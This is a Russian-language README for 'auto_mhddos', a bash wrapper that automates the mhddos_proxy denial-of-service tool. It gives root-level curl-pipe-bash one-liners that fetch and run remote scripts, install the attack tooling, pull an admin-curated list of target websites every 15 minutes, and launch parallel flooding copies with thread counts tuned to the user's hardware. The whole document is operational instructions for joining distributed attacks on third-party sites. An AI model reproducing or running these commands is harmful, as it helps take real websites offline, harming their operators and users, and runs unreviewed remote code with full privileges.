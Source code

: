### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

## Установка или получение обновлений

* Выполняем команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash`

* Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

## Запуск скрипта

### Docker

1. Билдим образ командой `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/build_docker.sh | bash`
2. Запускаем `docker run -it --rm aruiem234/auto_mhddos:latest`

Опционально можно указать параметры:

```shell
docker run -it --rm aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

### Bash

* Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash`

#
Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ): `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100`

-- Среднее: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200`

-- Быстрое: `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000`

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.
#

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 2 копии mhddos_proxy. Каждая копия независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

## Завершение скрипта

Чтобы завершить скрипт, простой закройте окно с терминалом

ИЛИ

В другом терминале выполните команду "pkill -f python3", потом в основном терминале нажмите CTRL + C.
